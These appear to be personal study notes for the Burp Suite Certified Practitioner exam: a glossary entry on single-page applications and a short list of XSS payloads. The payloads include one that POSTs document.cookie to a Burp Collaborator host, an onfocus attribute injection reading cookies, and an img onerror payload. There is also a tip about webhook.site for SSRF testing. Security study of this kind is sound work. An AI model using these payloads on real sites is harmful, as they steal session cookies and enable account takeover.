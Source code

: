 ## Glossary
- **SPA**: Single-page application. A web app implementation that loads only a single web document, and then updates the body content of that single document via JavaScript APIs, such as Fetch, when different content is shown. Allows users to use websites without having to load whole new pages fromt he server, which can result in performance gains and a more dynamic experience.

## Random Notes
- Reflective XSS payload `(" onfocus="alert(document.cookie)"` [OnFocus Event](https://www.w3schools.com/jsref/event_onfocus.asp)

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/12554a2b-795e-4135-88eb-19db2d510fae)

- Various XSS Payloads:
  - `<script>fetch("https://5mss4wrjzbfwlhwjbtrnuba4evkm8ew3.rsmcollaborator.com",{method:'POST', body:document.cookie});</script>`
  - `<img src="http://url.to.file.which/not.exist" onerror=window.open("https://www.google.com","xss",'height=500,width=500');>`

- [webhook.site](webhook.site) can be utilized for SSRF testing outside of Burp Suite collaborator. 
